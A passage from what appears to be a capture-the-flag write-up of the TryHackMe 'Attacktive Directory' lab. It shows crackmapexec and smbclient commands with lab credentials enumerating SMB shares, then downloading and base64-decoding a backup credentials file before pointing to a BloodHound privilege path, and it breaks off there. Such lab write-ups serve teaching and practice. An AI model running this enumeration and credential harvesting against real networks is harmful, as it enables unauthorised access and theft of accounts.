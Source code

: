 
- Enumerate SMB Shares

```bash
# via crackmapexec
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ crackmapexec smb 10.10.209.16 -u 'svc-admin' -p 'management2005' --shares
SMB         10.10.209.16    445    ATTACKTIVEDIREC  [*] Windows 10.0 Build 17763 x64 (name:ATTACKTIVEDIREC) (domain:spookysec.local) (signing:True) (SMBv1:False)
SMB         10.10.209.16    445    ATTACKTIVEDIREC  [+] spookysec.local\svc-admin:management2005 

[..snip..]
SMB         10.10.209.16    445    ATTACKTIVEDIREC  backup          READ            
[..snip..]

# via smbclient
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ smbclient -L 10.10.209.16 -U svc-admin
Enter WORKGROUP\svc-admin's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
[..snip..]
```

- Download the file from the share

```bash
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ smbclient \\\\10.10.209.16\\backup -U svc-admin
Enter WORKGROUP\svc-admin's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 15:08:39 2020
  ..                                  D        0  Sat Apr  4 15:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 15:08:53 2020
                8247551 blocks of size 4096. 3636462 blocks available
smb: \> get backup_credentials.txt
```

- The contents are base64 encoded, decode it to obtain the credentials for the backup user `cat backup_creadentials.txt | base64 -d`

- Now we have the credentials for the backup account, and from the results in the bloodhound enumeration `Shortest Paths to High Value Targets` shows a direction from backup account to the doamin 

<p align="center">
    <img src="backup-abuse.png" />